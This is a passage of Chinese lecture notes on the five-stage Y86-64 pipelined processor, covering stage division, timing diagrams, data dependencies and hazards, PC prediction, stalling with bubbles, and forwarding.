四幅图共用同一组设定：一段计算的组合逻辑总共 300 ps，每级末尾要把结果存入流水线寄存器，寄存器本身要花 20 ps。未流水线时，时钟周期必须至少 300 + 20 = 320 ps，所以单条延迟是 320 ps，吞吐量是 1/320 ps = 3.12×109 条/秒，即 3.12 GIPS，寄存器开销占 20/320 = 6.25%。把组合逻辑均分成三级、每级 100 ps 后，时钟周期降到 100 + 20 = 120 ps，吞吐量升到 8.33 GIPS，但一条操作要走完三级，延迟反而涨到 3×120 = 360 ps，寄存器开销占 20/120 = 16.67%。如果三段分得不均匀（50/150/100 ps），时钟周期由最慢的一段决定，是 150 + 20 = 170 ps，延迟 3×170 = 510 ps，吞吐量只有 5.88 GIPS——快的那两段大部分时间在空转，寄存器开销降到 20/170 = 11.76%。继续加深到六级、每级 50 ps 时，周期 50 + 20 = 70 ps，吞吐量 14.29 GIPS，延迟 6×70 = 420 ps，而寄存器开销升到 20/70 = 28.57%。这四组数字与 11.1 节表 2完全一致，这里不再重复。
一般式把三者的关系说得很清楚：设均分成 k 级，时钟周期 T(k) = 300/k + 20，吞吐量是 T(k) 的倒数，单条延迟 L(k) = 300 + 20k。k 增大时 300/k 越来越小，T(k) 趋近 20 ps，吞吐量的上限就是 1/20 ps = 50 GIPS；但延迟里的 20k 一项无限增大（教材练习 4.29）。这正是“加深流水的收益递减”：20 ps 的寄存器时间是每一级都要付的固定成本，级数越深，它在周期里占的比例越大，而组合逻辑那部分能压缩的空间越来越小。
表 36 流水线划分要注意的因素及其在四幅图中的体现
| 因素 | 含义 | 在四幅图中的体现 |
|---|---|---|
| 阶段均衡 | 时钟周期由最慢的一段决定，其余段再快也不能提高吞吐量 | p.9：50/150/100 的划分把吞吐量从 8.33 拉低到 5.88 GIPS |
| 寄存器开销 | 每级固定 20 ps，级数越深占比越高，收益递减 | p.10：6 级时占 28.57%，比 1 级的 6.25% 高 4 倍多 |
| 单条延迟 | 延迟 = 300 + 20k，随级数线性增长，对“只跑一条”的程序是净损失 | p.8：360 ps 比 320 ps 还大 |
| 硬件边界 | ALU、存储器、寄存器文件各有自己的延迟，不能按时间任意切分，通常按功能边界划分 | 课件按取指/译码/执行/访存/写回五段划分（2026 p.16、p.17） |
| 冒险代价 | 级数越深，相关指令的距离要求越大、误预测要清空的级数越多、转发路径越长 | 2026 p.11 的现代处理器深度表；本讲的三个气泡（ret 3 个、预测错误 2 个、load-use 1 个） |
表 36 把这几条因素与四幅图逐一对应起来。还要注意一个容易忽略的边界：300 ps 只是“组合逻辑总延迟”，它并不天然可以切成三个 100 ps。真实处理器里，指令存储器、寄存器文件、ALU、数据存储器是几块独立部件，它们的延迟各不相同，划分只能沿着这些部件的边界做，再靠插入寄存器把一段段隔开。课件 p.11（2026 版新增）用现代处理器说明这条经验：Pentium 4 Prescott 做到 31 级、换来了很高的频率，但一次分支预测错误要清空几十级；Core 2 约 14 级，Skylake 约 14～19 级，AMD Zen 4、Zen 5 的分支误预测惩罚是 15～18 和 15～25 个周期。深度是权衡的结果，不是越深越好。
1（2）基于课件第 7 页，对照时序图中的关键时间点，讲述流水线结构图中的信号变化。
课件 2026 p.7（与 2025 p.7 是同一张图）上半是时序图、下半是三级流水线的结构图：组合逻辑 A、B、C 各 100 ps，每级后面接一个寄存器，寄存器延迟 20 ps，时钟周期 120 ps。时序图的横轴标出四个关键时刻——239、241、300、359 ps，它们取自教材图 4.35，用来观察“一个周期里流水线到底发生了什么”。把三条操作记为 OP1、OP2、OP3，它们在图上分别用深灰、蓝、浅灰表示。
在 t = 239 ps（240 ps 上升沿之前），OP1 刚走完 B 段，结果已经稳定在第二个寄存器的输入端；OP2 刚走完 A 段，结果稳定在第一个寄存器的输入端；OP3 还没进入流水线。三个寄存器的输出仍然保持上一个周期的值——信号虽然已经传到寄存器的输入端，但只要时钟不上升，寄存器状态就不变，因此 OP1 还没有“进入 C 段”。在 t = 241 ps（240 ps 上升沿刚过），第一个寄存器把 OP2 的 A 段结果锁存下来，第二个寄存器把 OP1 的 B 段结果锁存下来；同一时刻 A 段的输入换成 OP3，于是 OP2 进入 B 段、OP1 进入 C 段——三条操作第一次同时占满三个组合逻辑块。t = 300 ps 处在周期中段，三段组合逻辑各自都在传播信号，传播速度并不相同（图中用波浪形箭头表示），但任何中间值都不会写进寄存器，必须等到本段末尾、并且遇到下一个上升沿才被锁存。在 t = 359 ps（360 ps 上升沿之前），OP1 的 C 段结果、OP2 的 B 段结果、OP3 的 A 段结果分别到达各自下一个寄存器的输入端；360 ps 的上升沿一到，三条操作同时前进一段，OP1 离开流水线。这四个时刻的快照与 11.1 节对 p.7 时序图的说明一致（图 1），这里不再列表。
这段观察给出两条结论。第一，时钟的作用只是“定期锁存”：信号在两个上升沿之间可以从容传播，放慢时钟不改变流水线的行为，只会把每个周期拉长；反过来，时钟快到小于最慢一段的延迟时，寄存器输入端还没稳定就被锁存，结果就错了。第二，稳态下每 120 ps 有一条操作离开流水线，吞吐量是 1/120 ps = 8.33 GIPS；而单条操作从进入 A 到离开 C 要 3×120 = 360 ps，比未流水线的 320 ps 更长。也就是说，流水线填满之后（本图第 240 ps 起）才真正开始“每周期完成一条”，前面两个周期是填充（fill）阶段——这个“填充 + 稳态 + 排空”的结构，就是后面五级流水线时序图的雏形。
1（3）解读数据相关和数据冒险两个概念的关系和区别。
数据相关（data dependency）是程序语义层面的性质：一条指令要用的值由前面的某条指令产生，这件事只取决于程序本身，与处理器怎么实现无关。数据冒险（data hazard）是实现层面的性质：在某个具体的流水线里，产生值的指令来不及把值送到使用它的指令手里，如果照流水线的方式执行就会得到与顺序执行不同的结果。相关是“潜在”的，冒险是“现实”的——同一个相关在一种流水线里是冒险，在另一种里可能根本不是。课件 2025 p.10、p.11 这两页概念图在 2026 版被删去（2026 版只保留 p.19 的节标题与 p.20 的示例图），下面的定义与判据按教材 §4.5.4 补全。
最直观的例子还是那三行程序：irmovq $10,%rdx、irmovq $3,%rax、addq %rdx,%rax。第三条与第一条之间通过 %rdx 相关，与第二条之间通过 %rax 相关。在没有任何处理的 PIPE− 里，addq 在译码级读到的 %rdx 和 %rax 都还是 0，这是冒险；在带转发的 PIPE 里，%rdx 可以从 M 级转发、%rax 可以从 E 级转发，同一个相关就不再是冒险，结果 13 正确。可见“是不是冒险”要结合流水线的级数、各级的读写时机、有没有转发路径来判断。
判断冒险还要看两条指令在流水线里的距离。我们的五级流水线里，寄存器只在 D 级读、只在 W 级末尾写，于是“生产者写、消费者读”的距离决定了需要哪种补救，见表 37。
表 37 两条指令的距离与冒险判据（五级流水线；距离按两条指令之间隔了几条指令计）
| 相隔指令数 | 生产者在消费者 D 级时的位置 | 无转发 | 有转发（ALU 结果） | 有转发（load 结果） |
|---|---|---|---|---|
| 0（紧邻） | E 级 | 冒险：要等写回，停到生产者离开 W | 从 E 级转发 e_valE，不停顿 | 冒险：数据到 M 级才出现，停 1 拍 |
| 1 条 | M 级 | 冒险 | 从 M 级转发 M_valE，不停顿 | 从 M 级转发 m_valM，不停顿 |
| 2 条 | W 级 | 冒险 | 从 W 级转发 W_valE，不停顿 | 从 W 级转发 W_valM，不停顿 |
| 3 条及以上 | 已写回或更早 | 不冒险 | 不冒险 | 不冒险 |
所以结论可以写成一句话：相关是冒险的必要条件而不是充分条件，冒险 = 相关 + 距离不够 + 实现里没有补救手段（转发、停顿、编译期调度）。这也是为什么“数据相关”可以在程序层面讨论，而“数据冒险”必须结合具体的流水线结构来分析。
1（4）基于课件第 12 页，解释什么是 RAW 相关，在什么情况下会产生冒险。
RAW（read-after-write，写后读）是最常见的一类数据相关：按程序顺序，先有一条指令写某个寄存器，后面有一条指令读它，读的指令必须看到写进去的新值。2025 版课件 p.12 用三行程序说明（该页在 2026 版被删，最近的入口是 p.19 的“Data dependency”节标题与 p.20 的示例图；定义按教材 §4.5.4 补）：
1 irmovq $50, %rax
2 addq %rax, %rbx
3 mrmovq 100(%rbx), %rdx这三条指令串成两条 RAW 边：第 1 条写 %rax、第 2 条读 %rax；第 2 条写 %rbx、第 3 条读 %rbx。在顺序实现里这没有任何问题——每条指令彻底执行完才取下一条，读到的必然是新值。在流水线里，第 1 条的 ALU 结果要到 E 级末尾才产生、寄存器文件要到 W 级末尾才写入，而第 2 条在 D 级就要读 %rax；如果第 2 条紧跟第 1 条，它读到的是旧值，这就是冒险。
是否产生冒险由三件事共同决定。第一，生产者写的是哪个寄存器（dstE 或 dstM），消费者读的是哪个寄存器（srcA 或 srcB），两者必须相同；寄存器 ID 15（RNONE）表示“不使用寄存器”，任何一边是 RNONE 都不算相关。这里有一个细节：条件传送在条件不成立时会把 e_dstE 改成 RNONE，转发和停顿的匹配都必须用 e_dstE 而不是 E_dstE，否则会把一条根本没有写成功的指令当成生产者（教材练习 4.35）。第二，两条指令的距离（表 37）：无转发时要等写回，消费者必须晚于生产者写回之后，也就是至少隔 3 条指令；有转发时 ALU 结果可以从 E/M/W 级取，紧邻也没问题。第三，是生产者产生值的位置：ALU 的结果在 E 级就有了，load 的数据要到 M 级才从数据存储器出来——所以“load 后面紧跟着用这个值”的 RAW 边即使有转发也要停一拍（2（6））。
把课件那三行程序落到本讲的流水线上：第 1、2 条之间的 RAW 边距离为 1，但 %rax 的值在 E 级就能转发，安全；第 2、3 条之间的 RAW 边距离也是 1，%rbx 由 ALU 产生，同样能从 E 级转发，安全。换句话说，RAW 相关在本讲的 PIPE 里几乎都能被转发化解，唯一剩下的就是 load-use。模拟器验证：irmovq $10,%rdx、irmovq $3,%rax、addq %rdx,%rax、halt 在无冒险处理的 PIPE− 上得到 %rax = 0，在带转发的 PIPE 上得到 13（= 10 + 3）。
1（5）拓展研讨：除了 RAW 相关，还有哪些相关？它们在本讲介绍的流水线处理器中有没有影响，它们在什么情况下会产生冒险？
除 RAW 之外还有两类相关。WAR（write-after-read，读后写），又叫反相关（anti-dependency）：程序顺序里先读后写，要求“旧值被读走之前不能被新值覆盖”。WAW（write-after-write，写后写），又叫输出相关（output dependency）：两次写同一个寄存器，要求“最终留在寄存器里的是程序顺序里最后那次写”。RAW 是数据流上的真相关（true dependency），WAR 和 WAW 只是“名字”上的冲突（name dependency）——它们并不传递数据，只是碰巧用了同一个寄存器名。
在本讲的按序五级流水线里，这两类相关都不会变成冒险：寄存器只在 D 级读、只在 W 级写，指令按程序顺序进出各级，WAR 的“覆盖”一定发生在“读”之后，WAW 的写入顺序也一定是程序顺序；而且本设计没有任何“越级完成”的机制，ALU 结果和 load 结果都不会让后面的指令先写回。逐项的分析（连同结构冒险、内存相关、条件码相关、PC 这些“别的冒险”）见 11.14 节的表 28，那里把原因归纳成三条原则：按序流动、从不超车；每种状态只在一个阶段写、读不晚于写；每级一套硬件、每条指令每类资源至多用一次。
只有在下面这些情况里，WAR/WAW 才会变成真问题。其一是乱序执行或乱序完成：长延迟的 load 或浮点指令迟迟不写回，而后面的指令已经写回，WAW 的“最后写”顺序就被打乱；反过来，后面的指令先写、前面的指令才去读，WAR 也被破坏。现代处理器用寄存器重命名（register renaming）把同一架构寄存器的多次写映射到不同的物理寄存器，从根上消除这两类相关（11.16 节讲的 ROB 与重命名正是为此）。其二是多发射：一个周期有多条指令同时处在同一级，两条指令可能在同一周期竞争寄存器文件的同一个写端口，这就是写端口竞争，WAW 必须靠仲裁或重命名解决；本设计只有 E、M 两个写端口，单发射的前提下刚好够用。其三是同一条指令内部的两个写端口写同一个寄存器（popq %rsp）：这不是指令间的 WAW，而是端口冲突，教材约定 M 口优先（第 10 讲 10.7 节）。其四是存储器上的 WAR/WAW：本设计的访存只在 M 级发生、每周期一条，天然按序；乱序处理器必须做内存相关性判定。最后，如果将来加深流水线、或者让不同功能单元有不同延迟，即使仍然按序发射，也要重新检查“完成顺序”是否还等于程序顺序。
可以用一句话总结：RAW 必须靠转发或停顿解决，WAR/WAW 只在乱序、多发射、写端口竞争或延迟不一致时才需要处理，标准做法是寄存器重命名。本讲的 PIPE 是单发射、按序、五级定长流水线，所以真正需要停顿的只有 load-use 这一种 RAW。
1（6）解读 SEQ+ 和 SEQ 处理器结构上的差异，分析为什么要这么做。
在 SEQ 里，PC 是一个状态寄存器：一个周期内所有组合逻辑算完后，New PC 块在周期末尾选出新 PC，在上升沿写进 PC 寄存器，下一个周期 PC 才驱动指令存储器取指——PC 更新是整条链的最后一段。SEQ+ 把 PC 的计算挪到周期的开头：不再有 PC 寄存器，取而代之的是一组保存“上一条指令控制信号”的状态（教材图 4.39 标为 pIcode、pCnd、pValC、pValM、pValP），周期一开始，同一套 PC 选择逻辑就用这些信号算出“当前这条指令的 PC”，直接送给指令存储器。2026 p.14 把 SEQ 与 SEQ+ 两张结构图左右并列，页面上只有一句说明：“Move PC to the first stage”。
SEQ+ 的逻辑功能与 SEQ 完全一致：PC 选择仍是同一个三选一——call、jmp 和条件成立的条件转移取 valC，ret 取从数据存储器读出的 valM，其余情况（包括条件不成立的条件转移）取 valP；差别只在于这些信号来自“上一条指令锁存下来的副本”，而不是来自“当前周期正在计算的组合逻辑”。这种把状态元素在路径之间挪动、保持逻辑行为不变的技术叫电路重定时（retiming，教材 §4.5.1）。课件还顺带点出一个观念：SEQ+ 里没有硬件寄存器保存 PC，PC 是动态算出来的——只要处理器对任意程序都能给出正确的 PC，就不必按 ISA 的概念模型去保存它（教材 §4.5.1 的 Aside）。
为什么要做这个改动？因为流水线的取指级必须自己完成“选 PC → 读指令存储器 → 算出 valP 与预测 PC”这一整套动作，并在级末把预测 PC 锁存进流水线寄存器 F。如果照搬 SEQ 的结构，PC 由周期末尾的 New PC 计算、再经过一个寄存器才能在下一个周期使用，取指级就无法做到“每个周期取一条新指令”。重定时之后，取指级变成一个自包含的阶段：输入是反馈回来的少量控制信号，输出是锁存进 F 的 predPC——这也解释了为什么 PIPE 的 F 寄存器只有一个字段 predPC。可以说 SEQ+ 是 SEQ 到 PIPE 的中间过渡：先做重定时，再把流水线寄存器插到各级边界上（2026 p.16 的对照图），结构就自然变成了五级流水线。
1（7）基于课件第 15 页及后续几页，解读如何划分流水级、每一段流水级完成的操作、每一个流水线寄存器保存的内容。
划分流水级的原则是“沿功能边界切、让各段工作量尽量均衡”，而不是把 300 ps 按时间随便切三刀（见 1（1））。Y86-64 的指令执行天然分成五段：取指、译码、执行、访存、写回；SEQ+ 已经把这些段排成单向流动，只要在段与段的边界上插一组寄存器，把边界上流过的信号锁存下来，就得到五级流水线 PIPE−（2026 p.16 是 SEQ+ 与 PIPE− 的对照图，2026 p.17 是 PIPE− 的整页结构图）。每一级只做自己那一段组合逻辑，级与级之间只通过流水线寄存器和少量反馈路径通信；值不能跳过一级，例如 valC 必须跟着指令走过译码级才能到执行级。2025 p.16 的“Pipeline Stages”文字页在 2026 版被删去，下面各级职责按教材 §4.5.2 补全，字段名称沿用课件的 S_Field / s_Field 约定（2025 p.18 的命名页在 2026 版也被删去）。
各级的职责见表 4，五个流水线寄存器的字段见表 5（都在 11.2 节）。这里补三点容易记错的地方。第一，F 寄存器只有 predPC 一个字段：取指级已经把指令的全部字段拆出来放进了 D，F 不必再保存指令本身。第二，valP 与从寄存器文件读出的值在译码级被合并成一个 valA（Select A，见 11.2 节）：只有 call 需要 valP 进入访存级、只有 jXX 需要 valP 进入执行级，而这两类指令都不读寄存器，两者共用一条通路，E、M 两级因此各少一个 64 位字段。第三，dstE、dstM 必须跟着指令一路带到 W 级，写回时用的是 W 寄存器里的寄存器号，否则会变成“用 W 级的数据写 D 级的寄存器号”；M 寄存器里的 Cnd 是分支在 E 级算出的结果，要等到 M 级才用来决定是否修正 PC；每个流水线寄存器都带一个 stat 字段，异常处理时靠它判断哪条指令可以改状态。
1（8）基于课件第 19 页，分析每一条 Feedback 路径的作用。
2025 版 p.19 用红框标出 PIPE− 结构图里的四条反馈路径：预测 PC、分支信息、返回地址、寄存器更新。2026 版 p.18 只保留了其中“预测 PC”和“寄存器更新”两条文字，另外两条移到了分支与返回的小节（结构图见 2026 p.17）。这四条路径的共同作用是：让已经流到后面几级的指令能够影响正在取指、译码的指令——流水线打破了“一条做完再做下一条”的假象，靠的正是这些反馈把“后面才知道的信息”送回前面。
四条反馈路径的来源、去处与作用见表 7（11.2 节）。这四条是 PIPE− 的“最小反馈集”：预测 PC 让流水线不停下来，分支信息和返回地址负责纠错，寄存器更新负责提交结果。到了最终的 PIPE，还要再加一组从转发路径（E、M、W 级）回到译码级的反馈，用来把还没写回的结果直接送给正在译码的指令（见 2（5），2026 p.39–p.40）。反馈路径越多，需要的判优逻辑就越多：例如转发必须“取流水线里最早那一级”的值，否则会把过期数据送出去（2026 p.37）。
1（9）基于课件第 20 页及后续几页，解读该流水线处理器中下一条指令地址（PC）的产生方式。
PIPE 的 PC 由取指级的两个组合逻辑块决定：Predict PC 和 Select PC（图 21，即 2025 p.20 那张取指级结构图）。Predict PC 根据刚取到的指令算“下一条指令大概在哪里”，结果锁存进 F 寄存器的 predPC；Select PC 从三个候选里选出本周期真正送给指令存储器的地址 f_pc。默认情况下 f_pc 就是 F_predPC；只有当后面某条指令需要改 PC 时，才用另外两个候选。2025 版的文字说明页 p.20“Predicting the PC”、p.22“Recovering from PC Misprediction”在 2026 版被删去，等价内容分散在 p.47（预测策略）、p.17 的结构图（Select PC 与 M_valA、W_valM 箭头）以及 p.59（控制条件表）里。
Select PC 的三个候选（F_predPC、M_valA、W_valM）与 f_pc 的 HCL 见 11.2 节，预测策略见表 8：不改变控制流的指令（OPq、irmovq、rmmovq、mrmovq、pushq、popq、nop、halt）预测 valP，永远正确；call 和 jmp 预测 valC，永远正确；条件转移预测 valC（“总是跳转”），只有真的跳了才对，课件给的经验命中率约 60%（2026 版在这一页补注“> 95%”，指的是现代动态预测器的水平）；ret 不做预测，取指级直接停下来等它走到写回级（2026 p.56 专门问了“为什么不预测 ret”，理由见 2（8））。
出错后的恢复分两种。条件转移在 E 级用 e_Cnd 判定，如果猜错（E_icode == IJXX && !e_Cnd），下一个周期这条转移指令正好在 M 级，Select PC 改选 M_valA，取指级重新从 fall-through 地址开始取，同时把错误取进来的两条指令用气泡取消（2（7））。ret 的返回地址在 M 级读出、W 级可用，取指级在 ret 处于 D、E、M 三级期间一直停着，等 W_valM 出现（2（8））。2026 p.46 说 nextPC 到执行级才清楚，指的是条件在这时才判定；真正把 PC 拨回 fall-through 地址，是在下一周期由 M 级的 M_valA 选出的。两种恢复的完整流水线图见 11.8 节图 14 与 11.9 节图 15。相关页面上还有几处旧版程序的地址与一处笔误，见下面的说明。
图 21 取指级的 PC 预测与选择（课件 2025 p.20–22；2026 p.17 结构图的取指部分）：Predict PC 为下一条指令猜一个地址存入 F 寄存器；Select PC 在本周期从 F_predPC、M_valA、W_valM 中选出真正的取指地址 f_pc
⚠ 课件笔误：p.49 的 M_valA 与旧版演示程序的地址
2026 p.49 的转移预测错误展开图里写 M_valA = 0x007。该页程序 demo-j 中 jne 位于 0x002，JXX 指令编码为 1 字节 icode + 8 字节常数，共 9 字节，所以 fall-through 地址是 0x00b；模拟器的实际取指地址也是 0x00b。沿用旧版程序地址的是 p.50“Handling Misprediction”的时序图：目标指令 0x016（irmovq $2,%rdx）、目标后一条 0x020（irmovq $3,%rbx），halt 在 0x015；而 p.46、p.48 的新程序里目标指令是 0x019、0x023，halt 在 0x018。p.51 只有检测条件表，没有地址。
ret 的例子也有旧版地址：p.55 把 ret 写成 0x026，按 p.53 程序汇编后 ret 应在 0x02a、其后三条指令在 0x02b/0x035/0x03f；p.55 的返回点写的是 0x013，与 p.53 一致（“返回点 0x014”只出现在 2025 版）。p.54 整页用的是另一个演示程序（图中标 demo-ret）的地址：ret 在 0x033、返回点 0x052，与 p.53 不是同一段代码，整页都对不上；p.57 是检测逻辑图，上面没有地址。本讲义一律按 p.46/p.48、p.53 的程序地址叙述，详见 11.12 节末尾的说明。
研讨题 2：PIPE 中的关键设计#
2（1）基于课件第 23 页，解读程序代码、时序图、流水线结构示意图三者的对应关系。
2025 p.23（2026 p.13，被提到全讲最前，标题改成“Our lecture: 5-stage pipeline”）用 demo-basic 演示五级流水线，程序只有五条指令（地址与指令见表 38 的第一列），完整时序如下：
表 38 demo-basic 的五级流水线时序（模拟器：5 条指令共 9 个周期）
| 指令 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 |
|---|---|---|---|---|---|---|---|---|---|
| 0x000 irmovq $1,%rax | F | D | E | M | W | ||||
| 0x00a irmovq $2,%rcx | F | D | E | M | W | ||||
| 0x014 irmovq $3,%rdx | F | D | E | M | W | ||||
| 0x01e irmovq $4,%rbx | F | D | E | M | W | ||||
| 0x028 halt | F | D | E | M | W |
demo-basic 的完整时序见表 38。三者的对应关系可以分三层来看。第一层，程序代码的每一行是一条指令，时序图的每一行对应一条指令，行内从左到右依次是 F、D、E、M、W 五个格子，每个格子占一个时钟周期：I1 在第 1 周期取指、第 2 周期译码、第 3 周期执行、第 4 周期访存、第 5 周期写回；I2 整体后移一个周期，以此类推。第二层，时序图的每一列是一个时钟周期，一列里的五个格子对应结构图上从下到上的五个阶段（取指在下、写回在上）：课件画出的第 5 周期快照就是 W = I1、M = I2、E = I3、D = I4、F = I5，五条指令同时处在五个不同的级里。第三层，结构图上的每个组合逻辑块对应时序图里的一个字母，块与块之间的流水线寄存器对应格子之间的边界：一条指令处在某个字母格子的那个周期里，它正在对应级的组合逻辑中传播；周期结束的上升沿，结果被锁存进该级与下一级之间的流水线寄存器，下一个周期它就出现在右边一个格子里。
从这个对应关系可以直接读出流水线的三条性质。其一，稳态下每个周期有一条指令完成（第 5 到第 9 周期每列都有一个 W），吞吐量趋近 1 条/周期。其二，单条指令的延迟是 5 个周期（I1 从第 1 到第 5 周期），n 条指令总共需要 n + 4 个周期：5 条指令 → 9 个周期，模拟器给出的 cycles = 9。其三，只有第一条指令是“独自”走完全程的，从第 5 周期起流水线满负荷——这正是“用延迟换吞吐量”的直观含义，也说明填充与排空的周期数等于流水级数减一。
2（2）基于课件第 24~27 页，解读如何用 nop 指令解决数据冒险，然后分析该方法的缺点。
这四页（2026 p.20、p.22、p.23、p.24）用的是同一个程序，只改变中间 nop 的个数；程序本身与 11.3 节的 demo-h0.ys 相同，3 个 nop 的版本也就是 11.4 节的 demo-h3.ys，这里不再重复代码。
前提是“朴素流水线”（PIPE−，既没有转发也没有硬件停顿）：寄存器文件只在 W 级末尾写入，指令在 D 级读寄存器，所以生产者写回之后的下一个周期，消费者才能读到新值。两条 irmovq 分别在第 5、6 周期末写 %rdx 和 %rax；addq 的 D 级在第 4 + k 个周期（k 是中间 nop 的个数）。四种情况的结果见表 9（11.3 节）：0 个 nop 读到 0 + 0 = 0（错，8 个周期）；1 个 nop 读到 0 + 0（错，9 个周期）；2 个 nop 读到 10 + 0 = 10（错，10 个周期）；3 个 nop 读到 10 + 3 = 13（对，11 个周期）。
结论是：在没有任何硬件补救的流水线里，两条有 RAW 相关的指令之间至少要隔 3 条指令（消费者的 D 级必须晚于生产者写回之后）。课件 2025 p.24（2026 p.20）的展开图正是“0 个 nop”的情形：第 4 周期 addq 在 D 级，M 级上是 irmovq $10,%rdx（M_valE = 10），E 级上是 irmovq $3,%rax（e_valE = 3），而 D 级读到的却是 valA = 0、valB = 0，图上标了 Error。这里正好能看到“值其实已经算出来了，只是还没写回”——这一点就是后面转发的出发点。
这种做法的缺点有四条。第一，编译器（或程序员）必须了解微体系结构的细节——流水级数、哪一级读、哪一级写、load 的延迟——一旦处理器换代，调度好的二进制代码就可能失效，这是“微体系结构细节泄漏到 ISA 之上”的典型例子。第二，nop 占指令存储空间、占取指带宽、占发射槽。第三，间距是按最坏情况固定的：无论生产者是 ALU 结果还是 load 结果、中间有没有别的有用指令，都要插满 3 条。第四，对加载/使用这类延迟更长的相关，需要另算间距（11.3、11.4 节已从另外几个角度列出代价）。所以硬件设计者宁愿把这件事自动化：先让硬件检测相关、自动停顿并注入气泡（2（4）），再用转发把大部分停顿消掉（2（5））。
2（3）基于课件第 28 页，解释 bubble 和 nop 指令的区别和联系。
nop 与气泡的定义、以及“Hardware bubble == nop”的含义，11.5 节已经讲过（见表 11）：nop 是一条真实指令（编码 0x10，icode = 1 = INOP），会被取指、译码、执行、访存、写回走完五级，只是不修改任何架构状态；气泡不是从存储器取来的指令，而是硬件把某个流水线寄存器的内容强制置成“nop 的复位配置”（icode = INOP，dstE = dstM = srcA = srcB = RNONE，Cnd = 0）的结果。每个流水线寄存器除了正常装载和 stall 之外还有第三种动作 bubble（2026 p.32 的三态图、教材图 4.65）。
联系有三条。其一，效果相同：都不改寄存器、存储器、条件码和 PC。其二，气泡相当于“硬件动态生成的 nop”——2025 p.28 的原文是“Dynamically inject nop into execute stage”，它不占指令存储器空间，也不需要编译器参与。其三，两者可以互相替代地填满流水线里的空槽：停顿一条指令时，被停住的指令留在 D 级，E 级由气泡顶上，保证后面的级继续工作。
区别有四条。第一，来源不同：nop 来自指令存储器，气泡来自流水线控制逻辑。第二，进入流水线的位置不同：nop 从 F 级进入，气泡只能被注入 D 级或 E 级——取指级每周期都必须从指令存储器读一条指令，没有“注入气泡”的入口，所以处理 ret 时只能反复取同一条指令再在 D 级把它换成气泡（2（8））。第三，代价不同：nop 占空间和带宽、需要编译期决定；气泡只损失一个周期，由硬件按实际情况动态产生。第四，生成时机不同：nop 是静态的（写死在程序里），气泡是动态的（运行时根据冒险条件生成）。反过来说，只要硬件能自动停顿和注气泡，编译器就不必再插 nop——这正是课件把 nop（Solution #1）和硬件气泡（Solution #2）并列的原因。
2（4）基于课件第 29 页及后续几页，解读如何实现流水线暂停（Stall），从而消除数据冒险，然后分析该方法的缺点。
硬件停顿分两步：检测相关，然后控制流水线寄存器。检测条件（2026 p.28、p.29）：正在译码的指令要读的寄存器（d_srcA 或 d_srcB）恰好是正在执行、访存、写回三条指令中某一条要写的寄存器（e_dstE、E_dstM、M_dstE、M_dstM、W_dstE、W_dstM）。两个特例必须注意：寄存器 ID 15（RNONE，0xF）表示“不使用寄存器”，任何一边是 RNONE 都不算相关；条件传送在条件不成立时 dstE 会被改成 RNONE，检测时必须用 e_dstE 而不是 E_dstE，否则会为一次根本不会发生的写而停顿（教材练习 4.35）。这就是 11.5 节控制逻辑里那个“全停”版条件：d_srcA、d_srcB 与 E、M、W 三级的六个目的寄存器逐一比较，具体写法见 11.5 节的代码框。
检测到相关时，控制逻辑把 F 和 D 两个流水线寄存器置为 stall（保持原值），把 E 置为 bubble（2026 p.31、p.32）。效果是：要等待的指令被“钉”在 D 级不动，它后面那条指令被“钉”在 F 级（每个周期重新取一次同一条指令），E 级插入一个气泡并让它往后流；等到生产者走到 W 级、值写进寄存器文件，相关条件消失，被钉住的指令才进入 E 级。三种更新模式见表 11（11.5 节），对应的动作就是 F、D 停（stall）、E 注气泡。
课件用两个程序演示停顿（2026 p.26、p.30）。demo-h2 有 2 个 nop，只需停 1 拍；demo-h0 没有 nop，要连停 3 拍，这就是“Stalling X3”那一页的标题。两者的周期数与气泡数见表 13（11.5 节），关键几拍见表 39。
表 39 demo-h2 与 demo-h0 的停顿关键周期（模拟器；两者都是 11 个周期，气泡分别为 1 个和 3 个）
| 程序 | 周期 | addq 的位置 | 相关来源 | 控制动作 |
|---|---|---|---|---|
| demo-h2（2 个 nop） | 6 | D 级 | srcB = %rax = W_dstE（%rax 在 W 级，本周期末才写回） | F、D stall，E bubble（共 1 拍） |
| demo-h2（2 个 nop） | 7 | D 级（重试） | 相关消失 | 正常前进，结果 13 |
| demo-h0（无 nop） | 4～6 | D 级连停 3 拍 | srcA/srcB 依次匹配 M_dstE、e_dstE、W_dstE | 每拍 F、D stall、E bubble（共 3 个气泡） |
| demo-h0（无 nop） | 7 | D 级（重试） | 相关消失 | 第 8 周期进 E，结果 13 |
以 demo-h0 为例：第 4 周期 addq 进入 D 级，此时 E 级是 irmovq $3,%rax（e_dstE = %rax，匹配 srcB）、M 级是 irmovq $10,%rdx（M_dstE = %rdx，匹配 srcA），相关成立，于是 F、D 停住、E 注入气泡；第 5 周期 W 级是 irmovq $10,%rdx，仍然匹配，继续停；第 6 周期 W 级换成 irmovq $3,%rax，仍然匹配，继续停；第 7 周期三个目的寄存器都已经是气泡或无关指令，条件消失，addq 才在第 8 周期进入 E 级。三次停顿各产生一个气泡，三个气泡依次流过 E、M、W 级。模拟器结果：%rdx = 10、%rax = 13，正确。
缺点是代价实打实：demo-h2 里一条 addq 就停 1 拍；demo-h0 里四条指令从 8 个周期变成 11 个周期，CPI 从 1.0 变成 2.75。停顿时取指级也停着，取指带宽被浪费；停顿的拍数还取决于两条指令的距离和生产者的类型（ALU 结果还是 load 结果），控制逻辑每个周期都要重新比较六个目的寄存器。更根本的问题是：这些值其实早就算出来了——irmovq 的结果在 E 级末尾就出现在 ALU 输出上，只是还没写进寄存器文件。只要允许绕过寄存器文件直接送，大部分停顿都能消掉，这就是下一小节的转发。
2（5）基于课件第 35 页及后续几页，解读如何通过数据转发（Forwarding）消除数据冒险，还避免了流水线暂停的负面影响。
朴素流水线的问题在于“值必须先进寄存器文件、再被读出来”：写在 W 级末尾，读在 D 级，中间至少隔几个周期。观察（2026 p.34）：产生值的指令在 E 级就已经把结果算在 ALU 输出 valE 上，load 则在 M 级把数据放在 m_valM 上，都比写回早得多。技巧就是把这些值直接引回译码级，在译码级末尾（锁存进 E 寄存器之前）选出正确的 valA、valB——消费者在 E 级就能拿到新值，完全不必等寄存器文件。
